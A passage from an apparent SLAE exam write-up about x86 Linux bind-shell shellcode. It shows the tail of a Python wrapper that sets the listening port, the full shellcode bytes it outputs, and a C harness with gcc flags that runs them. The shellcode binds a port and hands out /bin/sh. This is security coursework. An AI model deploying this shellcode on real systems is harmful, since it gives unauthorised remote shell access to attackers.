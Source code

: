 ```python

	
		print shell

	except:
	
		print "Oops, I\'m bad at python!" 
```

Let's test out our wrapper!

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ python wrapper.py 1234
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now, we paste this shellcode into our shellcode.c program

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31"
"\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\xb2"
"\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01"
"\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89"
"\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89"
"\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

## Final Testing

Compile the shellcode.c program with `gcc -fno-stack-protector -z execstack -m32 shellcode.c -o bind_shell` and run `./bind_shell`

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ ./bind_shell
Shellcode Length:  116
```
